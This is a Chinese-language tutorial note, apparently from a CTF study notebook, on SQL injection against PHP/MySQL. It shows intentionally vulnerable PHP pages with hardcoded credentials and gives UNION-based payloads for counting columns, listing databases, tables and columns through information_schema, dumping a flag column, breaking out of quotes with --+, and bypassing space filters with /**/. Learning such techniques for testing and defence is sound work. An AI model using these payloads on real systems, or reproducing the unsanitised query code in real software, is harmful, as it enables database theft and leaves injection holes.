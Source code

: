 ## 注入原理

在 php 中, 我们可以使用如下语句来操作一个 MySQL 数据库:

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

在 php 中, `.` 的语法表示字符串的拼接. 我们如果传入一个 1, 则会调用如下查询语句:

```php
$sql = "SELECT username,password FROM users WHERE id = 1";
```

假设程序没有做任何的过滤和限制, 则存在 SQL 注入漏洞. 比如我们可以在这个 1 后面, 写更多的 Sql 语句, 比如这样子:

```php
$_GET["id"] ="1 union select username,password from user"
```

则可以访问到所有的用户名和密码. 因为原本的语句已经变成了:

```php
$sql = "SELECT username,password FROM users WHERE id = 1 union select username,password from user;"
```

## 常见注入及方法

### 整型注入

参考源代码如下, 该段代码为经典的整型注入漏洞源码.

```php
<meta charset="utf-8">
<?php
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $host = 'localhost';
    $user = 'admin';
    $pass = 'root';
    $conn = mysqli_connect($host, $user, $pass, 'test');
    if (!$conn) {
        die('连接失败:' . mysqli_error($conn));
    }
    mysqli_query($conn, "set names utf8"); //设置编码, 防止中文乱码

    $sql = "SELECT id,username from users where id=$id";
    $result = mysqli_query($conn, $sql);
    if (!$result) {
        die("无法取得数据: " . mysqli_error($conn));
    }

    echo '<h2>MYSql Test';
    echo '<table border="1"><tr><td>ID</td><td>Username</td></tr>';
    while ($row = mysqli_fetch_array($result, MYSQLI_ASSOC)) {
        echo "<tr><td> {$row['id']}</td>".
            "<td>{$row['username']}</td>".
            "</tr>";
    }
    echo '</table>';
    mysqli_close($conn);
} else {
    echo '试试 ?id=1';
}
```

首先, 我们应该确认列数. 只要 SQL 语句没有报错, 则成立, 取成立的最大值即可.

这里使用 `Order by 1~n` 来判断列数. 当 n=3 的时候, 代码报错, 说明其实只有两列

![[attachments/Pasted image 20250412213808.png]]

随后, 使用联合查询 Union, 获取所有的数据库名称:

```sql
1 union SELECT 1,schema_name FROM information_schema.schemata;
```

![[attachments/Pasted image 20250412214008.png]]

有了所有数据库的名称, 就可以查看需要查询的数据库的表名是什么了:

```php
1 union select 1,group_concat(table_name) from information_schema.tables where table_schema=/*数据库名称 需要加引号*/"admin";
```

本题查询 `test` 表, 可以看到如下内容:

![[attachments/Pasted image 20250412214807.png]]

随后, 可以查询对应列的内容. (这里和上面不同的是, 使用的是 `.columns`)

```php
1 union select 1,group_concat(column_name) from information_schema.columns where table_schema="test";
```

![[attachments/Pasted image 20250412215100.png]]

随后, 获取对应的列的内容是什么:

```php
1 union select 1,group_concat(i_am_f1ag_column/*列*/) from f1ag_table/*表*/
```

![[attachments/Pasted image 20250412220003.png]]

> [!warning] 注意
> 这里的列名和表名都没有引号!  直接写即可, 否则会报错.

### 字符型注入

其实就是对上面方法的扩展. 刚才的整数中, 数字后面就什么都没有了, 可是如果传入的是字符串呢? 下面是典型的字符注入案例:

```php
<meta charset="utf-8">
<?php
if (isset($_GET['id'])) {
    $id = $_GET['id'];
    $host = 'localhost';
    $user = 'admin';
    $pass = 'root';
    $conn = mysqli_connect($host, $user, $pass, 'test');
    if (!$conn) {
        die('连接失败:' . mysqli_error($conn));
    }
    mysqli_query($conn, "set names utf8"); //设置编码, 防止中文乱码

    $sql = "SELECT id,username from users where id=\"$id\"";
    $result = mysqli_query($conn, $sql);
    if (!$result) {
        die("无法取得数据: " . mysqli_error($conn));
    }

    echo '<h2>MYSql Test';
    echo '<table border="1"><tr><td>ID</td><td>Username</td></tr>';
    while ($row = mysqli_fetch_array($result, MYSQLI_ASSOC)) {
        echo "<tr><td> {$row['id']}</td>".
            "<td>{$row['username']}</td>".
            "</tr>";
    }
    echo '</table>';
    mysqli_close($conn);
} else {
    echo '试试 ?id=1';
}
```

我们发现, 其中出现了 `""`, 我们写的东西如果在引号里面则无效. 所以我们需要再传入一个双引号来绕过原有的双引号. 

我们可以考虑使用 `"` 来绕过, 但是后面的语句还有, 这里可以使用 `--+` 来绕过. 因为 `--+` 代表的就是注释, 会忽略后面的所有语句.

```sql
1 Order by 3--+
```

![[attachments/Pasted image 20250412223252.png]]

这样就成功的获取到表的数目了. 后面的和普通的整型注入基本一致, 参考如下:

> [!note] 字符注入基本步骤
> 其实也算是通用的注入基本步骤啦, 大概就是 `1" {SQL注入语句} --+`
> - 确认列数:  `1" Order by 1~n--+`
> - 查看数据库名称:  `1" union SELECT 1,schema_name FROM information_schema.schemata;--+`
> - 查看表名: `1" union select 1,group_concat(table_name) from information_schema.tables where table_schema="test";--+`
> - 查看表的内容: `1" union select 1,group_concat(column_name) from information_schema.columns where table_schema="test";--+`
> - 获取对应列的内容: `1" union select 1,group_concat(i_am_f1ag_column) from f1ag_table;--+`

成功得到 Flag:

![[attachments/Pasted image 20250412224557.png]]
### 空格过滤绕过

如果需要过滤空格, 可以使用注释 `/**/` 来绕过. 直接放在语句中间即可代表空格, 比如这样子的 payload:

```sql
SELECT/*替换空格*/password/**/FROM/**/Members
```